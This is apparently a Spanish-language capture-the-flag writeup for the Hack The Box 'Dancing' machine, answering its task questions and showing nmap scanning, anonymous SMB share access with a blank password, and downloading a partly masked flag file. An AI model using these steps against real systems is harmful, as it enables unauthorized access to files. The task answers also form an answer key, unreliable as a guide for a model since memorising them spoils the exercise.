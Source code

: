 ```yaml
---
title: Dancing Writeup
date: 2023-05-14
categories: [Writeups, Hackthebox]
tags: [Starting Point, Windows, Very Easy]
image:
  path: ../../assets/img/post/dancing/dancing.png
  width: 800
  height: 500
  alt: Banner dancing
---
```


Vamos a estar completando la tercera maquina del starting point.

En esta vamos a estar tocando el protocolo SMB (Server Message Block) es un protocolo cliente / servidor que gobierna el acceso a archivos y directorios completos, así como a otros recursos de red como impresoras, enrutadores o interfaces abiertas a la red.

## Task 1. What does the 3-letter acronym SMB stand for?

*¿Qué significa el acrónimo de 3 letras SMB?*

```text
Server Message Block
```

## Task 2. What port does SMB use to operate at?

*¿Qué puerto utiliza SMB para operar?*

```text 
445
```

SMB usa el puerto IP 139 o 445.

## Task 3. What is the service name for port 445 that came up in our Nmap scan?

*¿Cuál es el nombre del servicio para el puerto 445 que apareció en nuestro escaneo Nmap?*

Vamos a realizar un escaneo con nmap a la maquina victima:

```bash
nmap -sV -p- --min-rate 5000 10.129.146.249
```
```bash
❯ nmap -sV -p- --min-rate 5000 10.129.146.249
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 22:22 AST
Nmap scan report for 10.129.201.125 (10.129.201.125)
Host is up (0.85s latency).
Not shown: 63698 filtered tcp ports (no-response), 1834 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.47 seconds
```

Podemos ver en nuestro escaneo que el nombre del servicio para el puerto 445 es:
```text
microsoft-ds
```

## Task 4. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?

*¿Cuál es la 'bandera' o 'interruptor' que podemos usar con la herramienta SMB para 'listar' el contenido del recurso compartido?*
```text
-L
```

Vamos a Listar el contenido del recurso compartido de la maquina victima: 
```bash
smbclient -L 10.129.146.249
```
nos devuelve:
```bash
❯ smbclient -L 10.129.146.249
Password for [WORKGROUP\z3etxh]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.146.249 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

## Task 5. How many shares are there on Dancing?

*¿Cuántos participaciones hay en Dancing?*

En el comando anterior pudimos listar el contenido mediante smbclient y miramos que son:
```text
4
```

## Task 6. What is the name of the share we are able to access in the end with a blank password?

*¿Cuál es el nombre del recurso compartido al que podemos acceder al final con una contraseña en blanco?*

Despues de haber intentado con cada uno de los recursos compartidos:
```text
WorkShares
```

Indicamos que queremos acceder al recurso compartido 'WorkShares' de la siguiente forma:

```bash 
smbclient \\\\10.129.146.249\\WorkShares
```

Nos va a pedir Password, pero como hablamos anterior mente, la contraseña es texto en blanco, asi que le damos un enter.

```bash
❯ smbclient \\\\10.129.146.249\\WorkShares
Password for [WORKGROUP\z3etxh]:
Try "help" to get a list of possible commands.
smb: \> ls
```

Despues que estemos dentro, nos basta con hacer un 'ls', para listar directorios de la maquina victima.

```bash
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021
```

Vemos 2 Usuarios, miramos el contenido de cada directorio, en este caso lo que buscamos esta en el directorio "James.P"

```bash
smb: \> cd James.p
smb: \James.p\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021
```

## Task 7. What is the command we can use within the SMB shell to download the files we find?

*¿Cuál es el comando que podemos usar dentro del shell SMB para descargar los archivos que encontramos?*

El comando es:
```text
get
```

Descargamos el archivo flag:

```bash 
get flag.txt 
```

ya deberiamos de encontrar el archivo en nuestra maquina.

## Submit root flag

```bash
❯ cat flag.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: flag.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 5f61c10dffbc77a704d76016a22f1**
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```





